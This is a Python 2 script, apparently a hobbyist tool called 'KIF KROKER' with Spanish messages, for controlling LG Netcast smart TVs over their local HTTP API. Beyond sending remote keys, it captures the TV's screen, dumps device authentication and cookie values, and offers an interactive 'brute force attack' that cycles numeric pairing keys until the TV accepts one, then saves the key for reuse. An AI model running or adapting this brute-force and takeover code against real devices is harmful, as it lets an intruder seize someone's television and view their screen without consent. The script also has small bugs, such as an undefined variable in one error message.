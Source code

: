import argparse, requests, time, os, urllib, shutil
from xml.dom.minidom import parse, parseString

head = '''  
##    ## #### ########    ##    ## ########   #######  ##    ## ######## ########  
##   ##   ##  ##          ##   ##  ##     ## ##     ## ##   ##  ##       ##     ## 
##  ##    ##  ##          ##  ##   ##     ## ##     ## ##  ##   ##       ##     ## 
#####     ##  ######      #####    ########  ##     ## #####    ######   ########  
##  ##    ##  ##          ##  ##   ##   ##   ##     ## ##  ##   ##       ##   ##   
##   ##   ##  ##          ##   ##  ##    ##  ##     ## ##   ##  ##       ##    ##  
##    ## #### ##          ##    ## ##     ##  #######  ##    ## ######## ##     ##

Remote control LG TV (Netcast)
                                                                                                           
 v 1.0
 by EzeSoler
 ezesoler.com
'''

keySend = 444444
key = 0
numcapture = 1
help = """POWER = 1
NUM_0 = 2
NUM_1 = 3
NUM_2 = 4
NUM_3 = 5
NUM_4 = 6
NUM_5 = 7
NUM_6 = 8
NUM_7 = 9
NUM_8 = 10
NUM_9 = 11
UP = 12
DOWN = 13
LEFT = 14
RIGHT = 15
OK = 20
HOME = 21
MENU = 22
BACK = 23
VOLUME_UP = 24
VOLUME_DOWN = 25
MUTE = 26
CHANNEL_UP = 27
CHANNEL_DOWN = 28
BLUE = 29
GREEN = 30
RED = 31
YELLOW = 32
PLAY = 33
PAUSE = 34
STOP = 35
FF = 36
REW = 37
SKIP_FF = 38
SKIP_REW = 39
REC = 40
REC_LIST = 41
LIVE = 43
EPG = 44
INFO = 45
ASPECT = 46
EXT = 47
PIP = 48
SUBTITLE = 49
PROGRAM_LIST = 50
TEXT = 51
MARK = 52
_3D = 400
_3D_LR = 401
DASH = 402
PREV = 403
FAV = 404
QUICK_MENU = 405
TEXT_OPTION = 406
AUDIO_DESC = 407
NETCAST = 408
ENERGY_SAVE = 409
AV = 410
SIMPLINK = 411
EXIT = 412
RESERVE = 413
PIP_CHANNEL_UP = 414
PIP_CHANNEL_DOWN = 415
PIP_SWITCH = 416
APPS = 417"""

print head

if os.path.exists("Session.xml"):
	session_file = open("Session.xml", "r")
	keySend = int(session_file.read())
	
if os.path.exists("Key.xml"):
	key_file = open("Key.xml", "r")
	key = int(key_file.read())
	
headers = {'Content-Type': 'application/atom+xml'}

parser = argparse.ArgumentParser()
parser.add_argument("-i", "--ip", help="Direccion IP del TV")
parser.add_argument("-k", "--key", help="Clave de emparejamiento")
args = parser.parse_args()

if args.ip:
	ip = args.ip	

print "IP TV: ",ip

def waitingCommand():
	command = raw_input("Esperando comando: ")
	if(command == "help"):
		print(help)
	elif (command == "quit"):
		quit()
	elif (command == "pic"):
		captureScreen()
	elif (command == "channels"):
		listChannels()
	elif (command == "info"):
		getInfoTv()
	else:
		sendingCommand(command)
	waitingCommand()
	
def captureScreen():
	print("Capturando pantalla...")
	global numcapture
	response = requests.get("http://"+ip+":8080/roap/api/data?target=screen_image&width=960&height=540&type=0", stream=True)
	with open('capture'+str(numcapture)+'.png', 'wb') as out_file:
		shutil.copyfileobj(response.raw, out_file)
		#img = Image.open('capture'+str(numcapture)+'.png')
		#img.show()
		out_file.close()
		os.system('start capture'+str(numcapture)+'.png')
		numcapture +=1
		
def listChannels():
	print("Enviando commando...")
	req = requests.get('http://'+ip+':8080/roap/api/data?target=channel_list')
	respond = req.text
	xmlRes = parseString(respond)
	channels = xmlRes.getElementsByTagName('data')
	
	for channel in channels:
		#El nombre del canal puede venir vacio, por eso el try solamente para ese valor.
		try:
			channelName = channel.getElementsByTagName('chname')[0].firstChild.nodeValue
		except AttributeError:
			channelName = ""
		print("Tipo: %s" % channel.getElementsByTagName('chtype')[0].firstChild.nodeValue)
		print("Numero: %s" % channel.getElementsByTagName('physicalNum')[0].firstChild.nodeValue)
		print("Nombre: %s" % channelName)
		print("---------------------------------------------------------------------------")

def getInfoTv():
	print("Enviando commando...")
	req = requests.get('http://'+ip+':8080/roap/api/data?target=tv_header')
	respond = req.text
	xmlRes = parseString(respond)
	print("X-Country-CP: %s" % xmlRes.getElementsByTagName('X-Country-CP')[0].firstChild.nodeValue)
	print("X-SDP-URL: %s" % xmlRes.getElementsByTagName('X-SDP-URL')[0].firstChild.nodeValue)
	print("X-Device-Product: %s" % xmlRes.getElementsByTagName('X-Device-Product')[0].firstChild.nodeValue)
	print("X-Device-Platform: %s" % xmlRes.getElementsByTagName('X-Device-Platform')[0].firstChild.nodeValue)
	print("X-Device-Model: %s" % xmlRes.getElementsByTagName('X-Device-Model')[0].firstChild.nodeValue)
	print("X-Device-Netcast-Platform-Versio: %s" % xmlRes.getElementsByTagName('X-Device-Netcast-Platform-Versio')[0].firstChild.nodeValue)
	print("X-Device-Eco-Info: %s" % xmlRes.getElementsByTagName('X-Device-Eco-Info')[0].firstChild.nodeValue)
	print("X-Device-Country-Group: %s" % xmlRes.getElementsByTagName('X-Device-Country-Group')[0].firstChild.nodeValue)
	print("X-Device-Publish-Flag: %s" % xmlRes.getElementsByTagName('X-Device-Publish-Flag')[0].firstChild.nodeValue)
	print("X-Device-ContentsQA-Flag: %s" % xmlRes.getElementsByTagName('X-Device-ContentsQA-Flag')[0].firstChild.nodeValue)
	print("X-Device-FW-Version: %s" % xmlRes.getElementsByTagName('X-Device-FW-Version')[0].firstChild.nodeValue)
	print("X-Device-SDK-VERSION: %s" % xmlRes.getElementsByTagName('X-Device-SDK-VERSION')[0].firstChild.nodeValue)
	print("X-Device-ID: %s" % xmlRes.getElementsByTagName('X-Device-ID')[0].firstChild.nodeValue)
	print("X-Device-Sales-Model: %s" % xmlRes.getElementsByTagName('X-Device-Sales-Model')[0].firstChild.nodeValue)
	print("X-Device-FCK: %s" % xmlRes.getElementsByTagName('X-Device-FCK')[0].firstChild.nodeValue)
	print("X-Device-Type: %s" % xmlRes.getElementsByTagName('X-Device-Type')[0].firstChild.nodeValue)
	print("X-Device-Language: %s" % xmlRes.getElementsByTagName('X-Device-Language')[0].firstChild.nodeValue)
	print("X-Device-Country: %s" % xmlRes.getElementsByTagName('X-Device-Country')[0].firstChild.nodeValue)
	print("X-Device-Remote-Flag: %s" % xmlRes.getElementsByTagName('X-Device-Remote-Flag')[0].firstChild.nodeValue)
	print("X-Authentication: %s" % xmlRes.getElementsByTagName('X-Authentication')[0].firstChild.nodeValue)
	print("cookie: %s" % xmlRes.getElementsByTagName('cookie')[0].firstChild.nodeValue)
	print("X-Device-Eula: %s" % xmlRes.getElementsByTagName('X-Device-Eula')[0].firstChild.nodeValue)
	print("---------------------------------------------------------------------------")
	
def sendingCommand(command):
	xml = """<command><name>HandleKeyInput</name><value>"""+str(command)+"""</value></command>"""
	print "Eviando comando..."
	req = requests.post('http://'+ip+':8080/roap/api/command', data=xml, headers=headers)
	respond = req.text
	xmlRes = parseString(respond)
	numRes = int(xmlRes.getElementsByTagName('ROAPError')[0].firstChild.nodeValue)
	if(numRes == 200):
		print("Commando enviado correctamente.")
	else:
		print ("Error al enviar el comando %s" % str(commando))

def connectTV():
	xml = """<auth><name>AuthReq</name><value>"""+str(key)+"""</value></auth>"""
	print("KEY: %s" % str(key))
	req = requests.post('http://'+ip+':8080/roap/api/auth', data=xml, headers=headers)
	respond = req.text
	xmlRes = parseString(respond)
	numRes = int(xmlRes.getElementsByTagName('ROAPError')[0].firstChild.nodeValue)
	if(numRes == 200):
		print("TV emparejado correctamente")
		waitingCommand()
	else:
		print ("Error al intentat emparejar TV con la key %s" % str(key))
		quit()
	
def bruteForce():
	validKey = False
	global keySend
	while not validKey:
		xml = """<auth><name>AuthReq</name><value>"""+str(keySend)+"""</value></auth>"""
		print("KEY: %s" % str(keySend))
		req = requests.post('http://'+ip+':8080/roap/api/auth', data=xml, headers=headers)
		respond = req.text
		#respond = """<?xml version="1.0" encoding="utf-8"?><envelope><ROAPError>401</ROAPError><ROAPErrorDetail>Unauthorized</ROAPErrorDetail></envelope>"""
		
		xmlRes = parseString(respond)
		numRes = int(xmlRes.getElementsByTagName('ROAPError')[0].firstChild.nodeValue)
		print("Respuesta: %s" % str(numRes))
		if(numRes == 200):
			key_file = open("Key.xml", "w")
			key_file.write("%s" % str(keySend))
			key_file.close()
			print("TV emparejado con la key: %s" % str(keySend))
			validKey = True
			waitingCommand()
		else:
			session_file = open("Session.xml", "w")
			session_file.write("%s" % str(keySend))
			session_file.close()
			keySend+= 1
			time.sleep(0.3)
		
if args.key:
	key = args.key
	connectTV()
elif (key != 0):
	print "Conectando con la key guardada en session anterior..."
	connectTV()
else:
	print "No se ingreso clave de emparejamiento"
	respuesta = raw_input("Desea un realizar un ataque de fuerza bruta? y/n ")
	if respuesta == "y":
		print "Iniciando ataque de fuerza bruta"
		bruteForce()
	else:
		quit()

